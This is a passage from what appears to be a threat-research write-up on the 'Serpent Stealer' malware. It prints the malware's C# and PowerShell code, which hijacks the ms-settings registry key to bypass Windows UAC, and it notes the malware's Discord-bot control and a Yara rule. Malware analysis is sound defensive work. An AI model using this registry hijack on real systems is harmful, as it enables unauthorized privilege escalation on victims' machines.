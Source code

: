 ```csharp
string powershellScript = @"
 New-Item ""HKCU:\Software\Classes\ms-settings\Shell\Open\command"" -Force
 New-ItemProperty -Path ""HKCU:\Software\Classes\ms-settings\Shell\Open\command"" -Name ""DelegateExecute"" -Value """" -Force
 Set-ItemProperty -Path ""HKCU:\Software\Classes\ms-settings\Shell\Open\command"" -Name ""(default)"" -Value $program -Force
";
```

Additionally, it operates independently of a traditional C2 or server infrastructure, being controlled instead by a Discord bot.

In our extensive hunt, we also identified a version of 'Serpent Stealer' labeled as C++. However, instead of being developed from scratch in C++, it simply involves calling a .NET DLL from C++. The efficacy of our Yara rule extends to both the .NET and C++ versions, hence further analysis of this variant is not deemed necessary.

# Part 3 - C2 Panel

In this section of our article, Part 3 - C2 Panel, we address claims about C2 Panels associated with `SerpentStealer` found online. This inclusion is essential for a comprehensive analysis.
